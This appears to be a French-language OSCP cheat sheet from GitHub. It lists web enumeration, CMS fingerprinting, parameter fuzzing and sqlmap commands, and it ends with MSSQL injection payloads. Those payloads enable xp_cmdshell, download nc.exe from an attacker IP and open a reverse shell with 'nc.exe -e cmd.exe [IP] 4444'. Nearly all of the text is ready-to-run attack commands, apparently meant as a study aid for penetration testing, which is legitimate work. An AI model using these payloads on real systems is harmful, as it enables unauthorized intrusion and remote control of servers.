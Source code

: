<img src="https://github.com/florianges/Simple-OSCP-cheat-sheet/assets/64069514/6ada07ef-1fa7-4bad-83ff-78d636d8a6b5" height="180">

## Énumération des pages web :
dirb http://[IP] -X .php,.html,.txt  
gobuster –url [IP] dir –wordlist /usr/share/wordlists/dirb/big.txt -x php,txt,html  
## Identification de CMS :
whatweb [URL]  
python3 cmseek.py -u [URL]  
## Recherche des paramettres GET :
wfuzz --hh=[SIZE] -w [WORDLIST] [URL].php?[PARAM_NAME]=test  
## Recherche des fichiers backup :
dirb http://[fichier a tester] /usr/share/wordlists/dirb/mutations_common.txt -t
## Injection SQL :
sqlmap -u [URL] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])  
sqlmap -r [FILE] (--dbs / --tables -D [DATABASE] / --columns -D [DATABASE] -T [TABLENAME])   
A la main: http://192.168.1.50/wordpress/sql-injection-cheat-sheet/  

**commande injection in MSQL:**  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'show advanced options', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
admin' UNION SELECT 1,2,3,4,5; EXEC sp_configure 'xp_cmdshell', 1--+  
admin' UNION SELECT 1,2,3,4,5; RECONFIGURE--+  
EXEC xp_cmdshell 'powershell.exe wget http://[IP]/nc.exe -OutFile c:\\Users\Public\\nc.exe'  
EXEC xp_cmdshell 'c:\\Users\Public\\nc.exe -e cmd.exe [IP] 4444'  
